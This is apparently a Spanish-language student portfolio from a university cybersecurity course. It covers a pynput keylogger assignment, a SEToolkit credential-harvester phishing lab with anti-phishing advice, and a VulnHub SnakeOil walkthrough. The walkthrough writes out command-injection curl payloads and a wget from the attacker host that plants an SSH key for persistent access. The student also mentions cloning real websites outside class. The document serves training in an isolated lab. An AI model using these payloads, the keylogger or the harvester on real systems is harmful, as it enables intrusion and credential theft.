El presente documento detalla el desarrollo de una actividad académica enfocada en
la creación de un spyware (específicamente, un keylogger). El objetivo principal de este
ejercicio fue diseñar un programa capaz de registrar las teclas presionadas por un
usuario, abarcando tanto caracteres alfanuméricos como teclas especiales (tales
como Shift o Ctrl). Asimismo, el programa fue configurado para asociar cada pulsación
con su respectiva estampa de tiempo, registrando la fecha y hora exacta de cada
evento.
Descargar Informe
Desarrollo
Partiendo de los conceptos analizados en clase, la implementación del spyware se
llevó a cabo utilizando la biblioteca pynput.keyboard. Para lograr la captura de datos,
se inició un listener mediante el método listener.join, el cual permite que el programa
se mantenga en ejecución de fondo. De esta forma, el programa se mantiene
"escuchando" e interceptando todas las teclas pulsadas durante la sesión activa.
Este proceso de monitoreo se mantiene de forma ininterrumpida hasta que se presiona
la tecla de escape ("Esc"), la cual actúa como condición de salida. Una vez que se
presiona dicha tecla para finalizar el programa, el sistema genera automáticamente un
archivo de registro. En este documento se almacenan todos los logs de las teclas
capturadas, cada una documentada con su respectiva marca de tiempo generada
mediante la función datetime.now().
Primera imagen del código documentado del spyware.Segunda imagen del codigo documentado del spywarePrimera imagen del spyware en ejecuciónSegunda imagen del spyware en ejecuciónImagen del spyware en ejecución mientras realizaba el documento.
Conclusión
El desarrollo de esta práctica proporciona una perspectiva importante sobre la
ciberseguridad y genera una gran conciencia sobre las vulnerabilidades actuales. A
nivel técnico, la creación de este tipo de herramientas no es tan compleja como se
suele pensar; hoy en día, con las facilidades tecnológicas y el apoyo de la inteligencia
artificial, el desarrollo de estos programas es bastante accesible.
Esta experiencia demuestra que la mejor manera de aplicar estos conocimientos es
con un enfoque estrictamente académico y preventivo. Nos enseña la importancia de
ser cautelosos en nuestro entorno digital (teniendo cuidado con los enlaces o archivos
a los que damos clic) y refuerza el principio de hackeo ético: utilizar este aprendizaje
únicamente para nuestra formación y defensa, sin aplicarlo jamás de manera
perjudicial contra otras personas.
Una pagina demasiado convincente | Actividad 04
Desplace para empezar
Actividad 4 | Una pagina muy convincente
Miguel Ángel Salazar Martinez | 183833
Profesor: Servando López
Universidad Politécnica de San Luis Potosi
Act 4 | Una pagina muy convincente
31/08/26
Introducción
Durante los últimos días, colaboradores de la empresa de tecnología e innovación Matrix recibieron
correos electrónicos fraudulentos que suplantaban la identidad del departamento de TI. En dichos
mensajes se solicitaba con urgencia actualizar sus credenciales de acceso, bajo la amenaza de suspender
sus cuentas y desactivar su acceso a las herramientas de trabajo.
Tras la investigación, el equipo de ciberseguridad identificó que se trataba de un ataque de phishing.
Los correos dirigían a los usuarios a un sitio web malicioso con una interfaz idéntica al portal oficial de la
empresa; sin embargo, el dominio en la URL presentaba alteraciones respecto a la dirección auténtica.
Ante esta amenaza, el departamento de TI implementó una campaña de concientización y
prevención contra el phishing dirigida a todo el personal de Matrix, con el fin de fortalecer la primera línea
de defensa de la organización.
Los objetivos logrados de la campaña fueron:
• Sensibilizar a los usuarios sobre los riesgos de compartir información confidencial en sitios o con
remitentes no verificados.
• Proporcionar herramientas prácticas para detectar indicadores de engaño (direcciones de correo
falsas, urgencia injustificada, URL sospechosas).
• Mitigar la exposición a fugas de datos, accesos no autorizados y pérdidas financieras o
reputacionales.
• Enseñar al personal el procedimiento correcto para notificar inmediatamente cualquier correo
sospechoso al equipo de seguridad.
Descargar Informe
Objetivo de la Actividad
Desarrollar en los colaboradores la capacidad de identificar, verificar y reportar correos o sitios web
fraudulentos, adquiriendo las habilidades necesarias para diferenciar un mensaje legítimo de un ataque
de phishing y así evitar la entrega involuntaria de credenciales e información confidencial.
Descripción del escenario
Durante los últimos días, colaboradores de la empresa de tecnología e innovación Matrix recibieron
correos electrónicos fraudulentos que suplantaban la identidad del departamento de TI. En dichos
mensajes se solicitaba con urgencia actualizar sus credenciales de acceso, bajo la amenaza de suspender
sus cuentas y desactivar su acceso a las herramientas de trabajo.
Tras la investigación, el equipo de ciberseguridad identificó que se trataba de un ataque de phishing.
Los correos dirigían a los usuarios a un sitio web malicioso con una interfaz idéntica al portal oficial de la
empresa; sin embargo, el dominio en la URL presentaba alteraciones respecto a la dirección auténtica.
¿Qué es Credential Harvester? Y ¿Cuál es su función dentro de una campaña de phishing?
Credential Harvester es un sistema, script o página duplicadora que se usa principalmente para la recolección de datos y
después para el robo de estas.
Su función dentro de una campaña phishing es obtener información de inicio de sesión en un sitio web o aplicación.
Configuración del laboratorio

Para esta actividad se hizo uso de la maquina virtual de Kali Linux la cual fue montada en Oracle
VirtualBox

Una vez instalado la máquina virtual hicimos uso de la herramienta Setoolkit

Para la suplantación de la página web, se creó una página web ficticia a la que se le denomino “Matrix”
Evidencias y descripción del funcionamiento

En la herramienta de Setoolkit usamos la función “Social-Engineering Attacks”

Después seleccionamos la opción de “Website Attack Vectors”

Después de eso seleccionamos la opción de “Credential Harvester Attack Method”

Continuamos seleccionando la opción de “Custom Import” y procedemos a poner la dirección de la carpeta donde se
encuentran nuestros archivos de la página web ficticia:

Copiamos toda la carpeta de los archivos y después ponemos ingresamos la dirección URL a la que será redireccionada la
victima

Ingresamos a nuestro navegador de confianza aparentando ser la victima que intenta ingresar a la página oficial de la
empresa, el atacante con Setoolkit redirecciona al usuario a la página duplicada donde se robara las credenciales del usuario:

Ingresamos nuestras credenciales como usuario pensando que nos encontramos en la pagina web legitima:

Justo después de dar click en el botón de “Iniciar Sesion” las credenciales son enviadas al hacker y el usuario es
redireccionado al sitio web oficial de la empresa. De esta forma logramos robar las credenciales del usuario obteniendo el usuario o correo: mikesalazar4321@gmail.com y su
contraseña: Password4321Mike
Controles de seguridad propuestos
Para desarrollar un plan de control para evitar caer en ataques de Phishing me base en el plan de “Concientización sobre
seguridad de Kaspersky” planteando los siguientes puntos para evitar el ataque Phishing
• Revisar al remitente y dominio, si estos presentan irregularidades es un sitio fraudulento
• Mantener cabeza fría ante un correo o llamada donde lo que se busca es que el usuario caiga en pánico y así frenar
de golpe esa presión social para dar solución ante una situación como esta.
• Pasar el cursor sobre el link SIN dar click para observar a donde es que te dirige la URL
• Evitar la curiosidad y usar tu razonamiento lógico ¡Nadie te va a regalar un Iphone 17 Pro-Max!
• Confirmar dicha “indicación” por otro medio que no sea el sospechoso o los que te indique ese correo o mensaje
inquietante con tu jefe, compañero de trabajo o supervisor (Doble Verificación)
• Evitar descargar todo tipo de archivos que vengan en el posible correo/mensaje o llamada fraudulento
• Evitar dar click en cualquier parte del correo sospechoso
• Avisar inmediatamente a tus superiores o equipo de ciberseguridad para dar conocimiento de ataques de Phishing,
La comunicación es importante
• Leer el contenido del correo, ¡Google no te manda saludos cordiales!
• Aclararles a los usuarios las consecuencias legales de no hacer caso a estas medidas de prevención
Conclusión
Para dar por terminado es importante dar un final de lo aprendido en esta actividad y lo importante
que es tener conocimiento de estas medidas de prevención, haciendo caso a la famosa frase “Mas vale
prevenir que lamentar”.
Página 10
Durante el desarrollo de la actividad aprendí el uso de la herramienta SEToolkit para enviar correos
de phishing y ya más principalmente en esta actividad duplicar un sitio ficticio y ya extracurricularmente
probando las funciones de la herramienta a duplicar sitios web legítimos.
Como conocimiento es importante ser consciente de lo fácil que puede llegar a ser hacer un ataque
como este y ser conscientes de las consecuencias ya sea de hacer el ataque o de no conocer reglas de
prevención para este tipo de situaciones. A veces pensamos que estas cosas no nos pasaran o que solo
pasan en las películas y que es muy complicado que alguien pueda hacer esto cuando la realidad es que
no, alguien con mínimos conocimientos en hack puede llegar hacer estas cochinadas con un fin que
desconocemos. Es importante nosotros como sociedad hacer conocimiento de esto y evitar que alguien
más le pase esto, y mucho más importante, nosotros (Quienes tenemos conocimiento de esto) no usar
esto en actos maliciosos sino dejarlo solo como practica y aprendizaje y quizá si Dios nos permite en algún
trabajo para alguna empresa como un Hacker de sombrero blanco.
En el vasto mundo de la ciberseguridad, la línea entre el conocimiento teórico y la aplicación práctica es a menudo el mayor desafío para un profesional en formación. Este proyecto, titulado "De la teoría a la práctica: walkthrough en acción", representa un viaje completo a través de las fases de un ataque informático ético, desde el reconocimiento inicial hasta la obtención de control total sobre un sistema objetivo.
La máquina virtual elegida para este ejercicio fue SnakeOil, un entorno intencionalmente vulnerable diseñado para ser desplegado en la plataforma VulnHub. Su objetivo no es otro que poner a prueba las habilidades de un aspirante a hacker ético, obligándolo a pensar como un atacante real. Este informe documenta, paso a paso, el proceso de vulneración de SnakeOil, explicando cada técnica, herramienta y decisión tomada, así como los fundamentos teóricos que las sustentan.
A lo largo de este recorrido, se pondrán en práctica conceptos clave como el escaneo de puertos, la enumeración de servicios web, la explotación de vulnerabilidades (SSRF, RCE), el uso de JSON Web Tokens (JWT), la subida de claves SSH y la escalada de privilegios. Cada uno de estos pasos no es un simple acto mecánico, sino una decisión estratégica basada en el análisis de la información recolectada.
El presente informe no solo demuestra la capacidad técnica para vulnerar un sistema, sino también la habilidad para documentar, explicar y contextualizar cada acción, transformando un simple "hackeo" en un proceso de aprendizaje estructurado y replicable. Bienvenidos a este viaje desde la teoría hasta la práctica en el fascinante mundo de la ciberseguridad ofensiva.
Preparar laboratorio para la practica
Configuración de VirtualBox: Se importó la máquina virtual descargada utilizando la opción "Importar servicio virtualizado" de VirtualBox. Se configuró la máquina atacante (Kali Linux) y la máquina objetivo (SnakeOil) para que estuvieran en la misma red interna y aislada.
Instalar las máquinas virtuales (Kali y SanakeOil)

SnakeOil corriendo y funcionando correctamente

KaliLinux corriendo y funcionando correctamente
Aislar ambas máquinas virtuales de tu red de wifi, para obtener un laboratorio totalmente aislado

Configuración de red: Para garantizar el aislamiento, se optó por el tipo de adaptador "Red Solo Anfitrión" (Host-Only). Esto permite que ambas máquinas virtuales se comuniquen entre sí, pero no tengan salida a Internet ni a la red local del host.
RECONOCIMIENTO DE EQUIPOS EN LA RED Y ABERIGUAR LA IP DE NUESTRA VICTIMA

Usamos el comando netdiscover –r 192.168.56.0/24, que nos arroja tres direcciones ip, el anfitrión, la nuestra la 192.168.56.101 y la de nuestra victima 192.168.56.103
Escaneo de puertos
Se realizó un escaneo de puertos específico para identificar servicios potencialmente vulnerables. Una vez conociendo la ip hacemos un escaneo de puertos a la víctima, con el comando nmap –sS –p 22,80,443,8080,8443 192.168.56.103, el parámetro –sS nos ayudara a hacer un escaneo rápido y sigiloso, mientras que el parámetro –p nos permite enlistar puertos específicos a escanear en lugar de escanear los 65 mil puertos.
Enumeración de directorios con gobuster

Hacemos una enumeración de archivos en el puerto 8080 con el comando gobuster dir -u http://192.168.56.103:8080 -w /usr/share/wordlists/dirb/common.txt, gobuster es una herramienta que nos ayudara a buscar archivos, los archivos que buscamos son de tipo directorios con el comando dir, -u para url que es la ip de la víctima con el puerto a escanear, -w de lista de palabras y la dirección que ponemos /usr/share/wordlists... es la dirección donde se suelen guardar cientos de palabras clave a la hora de desarrollo web.
Obtención de información de usuarios/Registro de usuarios/Inicio de sesión/ Acceso a secret/Ejecución remota de comandos RCE

Usamos el comando curl http://192.168.56.103:8080/users, curl Client-URL nos permite transferir datos desde o hacia un servidor, /users una de las rutas que descubrimos con gobuster nos ayudara, nos da información valga la redundancia de usuarios.
Para los comandos:
curl -X POST http://192.168.56.103:8080/registration -H "Content-Type: application/json" -d '{"username":"hacker","password":"hacker1234"}'
curl -X POST http://192.168.56.103:8080/login -H "Content-Type: application/json" -d '{"username":"hacker","password":"hacker1234"}'
-X POST nos ayuda a enviar información en estos casos registro y logeo, -H “Content... le dice al servidor el tipo de datos que estamos mandando y –d de data (Datos). Este último comando /login nos arroja un token que nos autentica ante el servidor como legitimo. ¿Dónde nos estamos logeando? En la aplicación web que corre en el puerto 8080. Posteriormente usamos curl -X GET http://192.168.56.103:8080/secret -H "Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...." Para obtener el la “secret_key” que nos ayudara a ejecutar comandos en /run. Para este comando necesitamos autenticación que la obtuvimos con el token que obtuvimos con /login
Usando el comando curl -X POST http://192.168.56.103:8080/run -H "Content-Type: application/json" -d '{"secretkey":"commandexecutionissecret","url":"-h | whoami;"}' a quien le enviamos el tipo de datos que estamos mandando “json” y la secretkey asi como el comando a ejecutar -h | whoami nos arroja al usuario correcto en este caso “Patrick”
Este comando curl -X POST http://192.168.56.103:8080/run -H "Content-Type: application/json" -d '{"secret_key":"commandexecutionissecret","url":"-V&ls -la /home/patrick/"}' nos enlista los directorios y podemos confirmar que existe el directorio .ssh
Subida de clave para ssh
Como ultimo comando de esta captura de pantalla ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa_snakemail -N "", una vez sabiendo que el puerto ssh esta, creamos una clave de acceso de ssh desde nuestra maquina atacante KaliLinux, -t rsa para indicarle el tipo de clave en este caso rsa, -b 4096 le indicamos el tamaño de la clave en bits, -f /root/.ssh... le decimos la ruta donde guardara la clave privada/pública y por ultimo –N"” nos ayuda a ingresar sin contraseña.
Con el siguiente comando cat /root/.ssh/id_rsa_snakemail.pub > /var/www/html/authorized_keys movemos de directorio nuestra clave publica a otro directorio dentro de nuestro Kali para después iniciar el servidor web http
Inicio del servidor http en kali

Iniciamos el servidor web http, nos dirigimos a la dirección donde tenemos nuestra clave pública y después lo corremos.
Sudo su
Cd /var/www/html
Python3 –m http.server 80
Conexión con ssh

Con el comando curl -X POST http://192.168.56.103:8080/run -H "Content-Type: application/json" -d '{"secret_key":"commandexecutionissecret","url":"-V&wget http://192.168.56.101:80/authorized_keys -O /home/patrick/.ssh/authorized_keys"}' descargamos nuestra clave pública y la guardamos dentro de la carpeta .ssh de Patrick
ssh -i /root/.ssh/id_rsa_snakemail patrick@192.168.56.103 con este último comando accedemos por ssh como Patrick y estamos dentro de la máquina.
Lo demás es indagar hasta encontrar la contraseña del usuario root.
Passwords y usuario root

Primer contraseña que resulta no ser la de root

Segunda contraseña que si es la de root

Una vez dentro exploramos archivos y demás hasta encontrar contraseñas que nos hacen ser usuarios root
Conclusión
Este walkthrough demuestra cómo una máquina aparentemente segura puede ser comprometida mediante la combinación de técnicas de enumeración, explotación de vulnerabilidades y escalada de privilegios. Se logró:
Configurar un entorno aislado para pruebas seguras.
Identificar servicios vulnerables (puertos 8080 y 22).
Explotar un SSRF para obtener RCE.
Subir una clave SSH para acceso persistente.
Escalar a root mediante la contraseña encontrada en el código fuente.
Este proceso refleja la importancia de aplicar los conocimientos teóricos en entornos prácticos, documentando cada paso y entendiendo el fundamento de cada técnica utilizada.